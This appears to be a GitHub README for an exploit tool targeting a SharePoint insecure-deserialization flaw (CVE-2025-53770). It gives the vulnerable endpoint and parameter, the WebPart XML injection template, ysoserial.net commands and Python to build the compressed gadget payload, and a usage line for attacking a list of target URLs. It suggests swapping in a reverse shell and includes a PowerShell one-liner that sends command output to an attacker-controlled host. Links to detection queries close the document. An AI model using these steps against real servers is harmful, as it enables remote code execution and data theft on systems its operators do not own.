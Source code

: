 # SharePoint WebPart Injection Exploit Tool


| Field               | Value                                                                 |
|--------------------|-----------------------------------------------------------------------|
| **Component**       | Microsoft SharePoint (on-premises)                                    |
| **Endpoint**        | `/layouts/15/ToolPane.aspx`                                           |
| **Parameter**       | `MSOTlPn_DWP`                                                         |
| **Injected Control**| `<Scorecard:ExcelDataSet CompressedDataTable="...">`                 |
| **Vulnerability**   | Insecure deserialization (`BinaryFormatter`, `LosFormatter`, etc.)    |
| **CVE**             | [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770)     |

---

## How It Works

1. Authenticated users can send POST requests to `/_layouts/15/ToolPane.aspx?DisplayMode=Edit`.

2. The request includes the parameter `MSOTlPn_DWP`, containing an injected **WebPart XML**.

3. Inside the WebPart, the attacker places a `<Scorecard:ExcelDataSet>` component with the `CompressedDataTable` attribute holding a payload:
- Serialized .NET object
- Encoded in Base64
- Compressed using GZIP

4. SharePoint automatically **inflates** and **deserializes** the object using unsafe formatters.

5. If the object contains a valid **gadget chain** (e.g., `ObjectDataProvider`), **arbitrary code** is executed on the server.

## Requirements

- Python 3.x  
- Required Python modules:
```bash
pip install -r requirements.txt
```

* A Base64 GZIP-compressed .NET deserialization payload (see next section)

The payload must be:

* A `.NET DataSet` or similar gadget chain
* Serialized using `LosFormatter` or `BinaryFormatter`
* Base64-encoded
* GZIP-compressed
* Embedded inside this WebPart structure:

```xml
<asp:UpdateProgress ID="UpdateProgress1" runat="server" AssociatedUpdatePanelID="upTest">
  <ProgressTemplate>
    <div class="divWaiting">
      <Scorecard:ExcelDataSet CompressedDataTable="{PAYLOAD}" DataTable-CaseSensitive="false" runat="server" />
    </div>
  </ProgressTemplate>
</asp:UpdateProgress>
```

---

## Generating Payloads (Using `ysoserial.net`)

### Generate the base64 serialized object

```bash
cd ysoserial.net

# compile from source or use Dockerfile

ysoserial.exe -f LosFormatter -g ObjectDataProvider -o base64 -c "calc.exe" > payload.b64
```

> You can replace `calc.exe` with any command — for example, a reverse shell.

---

### Compress with GZIP

```python
import gzip, base64

with open("payload.b64", "rb") as f:
    decoded = base64.b64decode(f.read())
    compressed = gzip.compress(decoded)
    print(base64.b64encode(compressed).decode())
```

> Save the final output into `payload.txt` — this is what you give to the exploit script.

---

## Compatible Gadget Chains

You can use any gadget chain supported by your serialization tool. Common examples include:

* `System.Data.DataSet`
* `System.Data.Services.Internal.ExpandedWrapper`
* `System.Web.UI.LosFormatter`
* `System.Windows.Data.ObjectDataProvider`

> For more, check [ysoserial.net](https://github.com/pwntester/ysoserial.net) 

---

## Output / Echo

This vulnerability **does not return command output** like `ipconfig` in the HTTP response. If you want output:

* Use reverse shell payloads
* Or redirect output via `Invoke-WebRequest`:

```powershell
powershell -c "ipconfig | Invoke-WebRequest -Uri http://your-ip:8000/?d=$(Get-Content -Raw)"
```


## Example Usage

```bash
python3 exploit.py -t targets.txt --file payload.txt --proxy http://127.0.0.1:8080
```

### Arguments:

| Argument           | Description                                           |
| ------------------ | ----------------------------------------------------- |
| `-t` / `--targets` | File containing SharePoint target URLs (one per line) |
| `--file`           | File containing the base64 GZIP-compressed payload    |
| `--proxy`          | (Optional) Burp/ZAP proxy for interception/debugging  |

## SIEM Detection Queries:

(in-prog active exploitation worldwide)

Elastic:

https://github.com/robert-iw3/threat-hunting/blob/main/elastic-security/CVE-2025-53770.md

Splunk:

https://github.com/robert-iw3/threat-hunting/blob/main/splunk/CVE-2025-53770.md

Sentinel One:

https://github.com/robert-iw3/threat-hunting/blob/main/sentinel_one/spinstall0.aspx.md

https://github.com/robert-iw3/threat-hunting/blob/main/sentinel_one/sharepoint-activity.md

Sigma:

https://github.com/robert-iw3/threat-hunting/blob/main/sigma/2025/sharepoint_postexploit.yaml

https://github.com/robert-iw3/threat-hunting/blob/main/sigma/2025/sharepoint_webshell.yaml

Sentinel:

https://github.com/robert-iw3/threat-hunting/blob/main/kql/Sentinel/CVE-2025-53770%20-%20Successful%20exploitation%20via%20file%20creation.kql

https://github.com/robert-iw3/threat-hunting/blob/main/kql/Sentinel/Exploitation%20of%20SharePoint%20Vulnerability%20(CVE-2025-53770).kql

https://github.com/robert-iw3/threat-hunting/blob/main/kql/Sentinel/SharePoint%20Vulnerability%20Exploitation%20Attempt%20(CVE-2025-49704%2C%20CVE-2025-49706%2C%20CVE-2025-53770).kql



